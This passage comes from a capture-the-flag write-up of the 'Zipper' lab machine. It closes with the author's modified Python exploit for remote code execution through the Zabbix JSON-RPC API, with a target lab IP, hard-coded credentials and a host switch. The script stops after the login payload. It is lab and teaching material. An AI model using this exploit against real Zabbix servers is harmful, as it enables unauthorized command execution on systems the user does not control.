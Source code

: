 ### Conclusion

At first I thought it was sloppy on the shell’s author to not include the
`execute_on` parameter. But I suspect in their eyes the Zabbix server was a
juicier target. So if they had included it, they would have defaulted to
running on the server anyway.

It will say it was nicely done on Zipper’s author’s part to have it set to
default running on the wrong host, as it makes us as players have to figure
out what’s going on and not just use the scripts on the internet.

### Code

Here’s my final script:

    
    
      1 #!/usr/bin/env python
      2 # -*- coding: utf-8 -*-
      3 
      4 # Exploit Title: Zabbix RCE with API JSON-RPC
      5 # Date: 06-06-2016
      6 # Exploit Author: Alexander Gurin
      7 # Vendor Homepage: http://www.zabbix.com
      8 # Software Link: http://www.zabbix.com/download.php
      9 # Version: 2.2 - 3.0.3
     10 # Tested on: Linux (Debian, CentOS)
     11 # CVE : N/A
     12 
     13 import requests
     14 import json
     15 import readline
     16 
     17 ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
     18 url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit
     19 
     20 login = 'zapper'                ### Zabbix login
     21 password = 'zapper'     ### Zabbix password
     22 hostid = '10106'        ### Zabbix hostid
     23 hosts = ['zipper', 'zabbix']
     24 
     25 def set_host(host):
     26 
     27     global execute_on
     28 
     29     if host.lower() == 'zipper':
     30         execute_on = 0
     31     elif host.lower() == 'zabbix':
     32         execute_on = 1
     33     print("[*] Current host is " + hosts[execute_on] + '\n')
     34 
     35 set_host('zabbix')
     36 
     37 
     38 ### auth
     39 payload = {
     40         "jsonrpc" : "2.0",
     41     "method" : "user.login",
     42     "params": {
     43         'user': ""+login+"",
     44         'password': ""+password+"",
     45     },
     46         "auth" : None,
     47     "id" : 0,
     48 }